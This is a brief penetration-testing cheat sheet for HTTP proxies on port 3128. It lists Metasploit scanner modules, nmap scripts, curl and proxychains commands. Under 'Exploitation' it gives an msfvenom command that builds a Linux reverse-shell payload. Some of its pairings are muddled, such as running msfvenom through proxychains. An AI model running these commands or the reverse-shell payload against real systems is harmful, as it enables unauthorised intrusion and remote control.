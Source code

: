# HTTP Proxy

## Enumeration

### Metasploit

##### proxy_enum
```bash
use auxiliary/scanner/http/proxy_enum
set RHOSTS [IP]
set RPORT 3128
run
```

### Nmap

##### nmap (Proxy version detection)
```bash
nmap -p 3128 --script=http-proxy-auth [IP]
```

##### nmap (Proxy information gathering)
```bash
nmap -p 3128 --script=http-proxy-fingerprint [IP]
```

### curl

##### curl (Test HTTP Proxy)
```bash
curl -x http://[IP]:3128 [URL]
```

### Proxychains

##### proxychains (Use proxy to connect)
```bash
proxychains curl [URL]
```


---
---


## Exploitation

### Metasploit

##### proxy_http_fingerprint
```bash
use auxiliary/scanner/http/proxy_http_fingerprint
set RHOSTS [IP]
set RPORT 3128
run
```

### Proxychains

##### proxychains (Launch Metasploit over Proxy)
```bash
proxychains msfconsole
```

##### proxychains (Perform attack over Proxy)
```bash
proxychains msfvenom -p linux/x86/shell_reverse_tcp LHOST=[YourIP] LPORT=[port] -f elf > payload.elf
```